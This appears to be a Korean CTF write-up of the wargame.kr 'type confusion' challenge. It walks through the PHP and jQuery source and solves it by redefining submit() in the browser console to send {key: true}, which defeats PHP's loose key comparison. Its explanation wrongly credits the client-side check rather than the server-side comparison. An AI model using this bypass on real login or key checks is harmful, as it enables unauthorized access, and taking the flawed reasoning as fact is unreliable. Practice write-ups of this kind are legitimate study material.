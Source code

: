 ```yaml
---
layout: single
title: "[wargame.kr] type confusion write-up"
date: 2024-02-04 13:52 +0900
categories: 
    - WEB-write-up
tag: type_confusion
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## 문제 설명

```
Simple Compare Challenge.

hint? you can see the title of this challenge.

:D
```

<br>

## 풀이

<br>
이번 문제는 따로 문제 파일이 없다. 문제 접속 정보로 접속하면 다음과 같은 화면이 나온다.

![image-20240204143203635](/images/2024-02-04-type-confusion/image-20240204143203635.png)

<br>
wargame.kr 문제는 항상 위 처럼 view-source 클릭 버튼이 존재하고 거의 PHP 언어로 구성되어 있다.

<br>

### 소스 코드

```php
<?php
 if (isset($_GET['view-source'])) {
     show_source(__FILE__);
    exit();
 }
 if (isset($_POST['json'])) {
     usleep(500000);
     require("./lib.php"); // include for FLAG.
    $json = json_decode($_POST['json']);
    $key = gen_key();
    if ($json->key == $key) {
        $ret = ["code" => true, "flag" => $FLAG];
    } else {
        $ret = ["code" => false];
    }
    die(json_encode($ret));
 }

 function gen_key(){
     $key = uniqid("welcome to wargame.kr!_", true);
    $key = sha1($key);
     return $key;
 }
?>

<html>
    <head>
        <script src="//ajax.googleapis.com/ajax/libs/jquery/1.8.1/jquery.min.js"></script>
        <script src="./util.js"></script>
    </head>
    <body>
        <form onsubmit="return submit_check(this);">
            <input type="text" name="key" />
            <input type="submit" value="check" />
        </form>
        <a href="./?view-source">view-source</a>
    </body>
</html>
```

<br>

html에서는 key 라는 이름의 input 값을 입력하는 폼이 존재하고, POST로 전송된 json이라는 데이터가 존재하면 0.5초동안 지연시키고 `lib.php` 에서 flag를 포함시키고 있다. `$json` 변수에는 POST로 요청된 json 데이터가 `json_decode` 함수로 인해 디코딩되서 저장되고 `$key` 변수에는 `gen_key` 함수로 반환된 데이터가 저장된다.   

위 소스 코드에서 `->` 연산자와 `=>`  연산자는 각각 다음과 같다.  

- `->` : 객체 범위 내에서 객체에 접그낳기 위해서 사용하는 연산자
- `=>` : 배열의 키, 값을 할당할 때 사용하는 연산자  

이는 따라서 POST로 요청된 json 데이터의 `key` 속성 값이 `gen_key()`함수로 생성된 `$key` 값과 같다면 flag를 획득할 수 있다.  

```php
 if (isset($_POST['json'])) {
     usleep(500000);
     require("./lib.php"); // include for FLAG.
    $json = json_decode($_POST['json']);
    $key = gen_key();
    if ($json->key == $key) {
        $ret = ["code" => true, "flag" => $FLAG];
    } else {
        $ret = ["code" => false];
    }
    die(json_encode($ret));
 }

 function gen_key(){
     $key = uniqid("welcome to wargame.kr!_", true);
    $key = sha1($key);
     return $key;
 }
?>
```

<br>

먼저 아래의 `gen_key()` 함수의 동작 과정을 살펴보면 `uniqid` 함수를 사용해 `"welcome to wargame.kr!_"` 문자열을 인자로 사용해 특정 시간 기반으로 고유한 문자열 ID를 생성한다.  다음으로 생성된 고유한 문자열 ID에 대해 SHA1 해시값으로 저장한다.

```python
 function gen_key(){
     $key = uniqid("welcome to wargame.kr!_", true);
    $key = sha1($key);
     return $key;
 }
```

<br>

또 하나 살펴볼 것은 check 버튼을 눌러 전송될 때 이 폼에서는 `submit_check()` 함수와 `submit` 함수에 대해서 `./util.js` 파일에서 소스 코드를 따로 정의하고 있어 확인해 보았다.

![image-20240204152248863](/images/2024-02-04-type-confusion/image-20240204152248863.png)

<br>

`./util.js`의 소스 코드는 아래와 같다. `submit_check` 함수는 입력 폼이 채워져 있는지 검사하고, `submit` 함수에서는 JQuery를 이용해서 AJAX를 사용하고 있는 것을 알 수 있었다. 여기에서는 POST 메소드로 데이터 타입은 json을 사용하고, `{key: key}` 데이터를 보내게 되고, 요청이 성공적으로 완료되면 콜백 함수로 `code`가 true이면 flag를 출력해준다.

```javascript
var lock = false;
function submit_check(f){
	if (lock) {
		alert("waiting..");
		return false;
	}
	lock = true;
	var key = f.key.value;
	if (key == "") {
		alert("please fill the input box.");
		lock = false;
		return false;
	}

	submit(key);

	return false;
}

function submit(key){
	$.ajax({
		type : "POST",
		async : false,
		url : "./index.php",
		data : {json:JSON.stringify({key: key})},
		dataType : 'json'
	}).done(function(result){
		if (result['code'] == true) {
			document.write("Congratulations! flag is " + result['flag']);
		} else {
			alert("nope...");
		}
		lock = false;
	});
}

```

<br>

따라서 Type Confusion을 이용해 익스플로잇을 하면 된다. `util.js`의 소스 코드에서 `submit` 함수를 살펴보면 `==` 연산자를 사용하여 `result['code']` 부분이 true가 된다면 flag를 출력할 수 있다.

```javascript
if (result['code'] == true)
```

<br>

개발자 도구를 열어 Console 탭에서 다음과 같이 데이터가 전송되는 부분을 `{key: true}`로 변경하여 다시 요청하면 된다.

```javascript
function submit(key){
	$.ajax({
		type : "POST",
		async : false,
		url : "./index.php",
		data : {json:JSON.stringify({key: true})},
		dataType : 'json'
	}).done(function(result){
		if (result['code'] == true) {
			document.write("Congratulations! flag is " + result['flag']);
		} else {
			alert("nope...");
		}
		lock = false;
	});
}
```

![image-20240204153730035](/images/2024-02-04-type-confusion/image-20240204153730035.png)

<br>

위 Console 탭에서 `submit` 함수를 다시 재정의하고, 요청 값에 아무 값이나 입력하고 check 버튼을 누르면 flag를 획득할 수 있다.

![image-20240204153807678](/images/2024-02-04-type-confusion/image-20240204153807678.png)

![image-20240204153831756](/images/2024-02-04-type-confusion/image-20240204153831756.png)
